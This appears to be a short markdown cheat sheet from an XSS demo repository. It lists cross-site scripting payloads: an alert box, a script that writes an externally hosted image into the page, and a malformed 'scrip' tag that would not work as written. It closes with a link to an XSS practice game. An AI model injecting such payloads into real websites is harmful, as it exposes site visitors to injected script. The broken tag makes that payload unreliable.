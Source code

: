 # Alert
```js
<script>alert("Hello");</script>
```
# Image
```js
<script>function a() { document.write("<img src='https://raw.githubusercontent.com/nu11secur1ty/XSSight/master/XSS-image/image/kostaakatil.webp'></img>"); }; window.onload = a; alert("Hidden scripted image.");</script>
```
# Image XSS using the JavaScript directive

```js
<scrip src="https://raw.githubusercontent.com/nu11secur1ty/XSSight/master/XSS-image/image/kostaakatil.webp"></script>
```

# Test 
```url
https://xss-game.appspot.com/level1
```
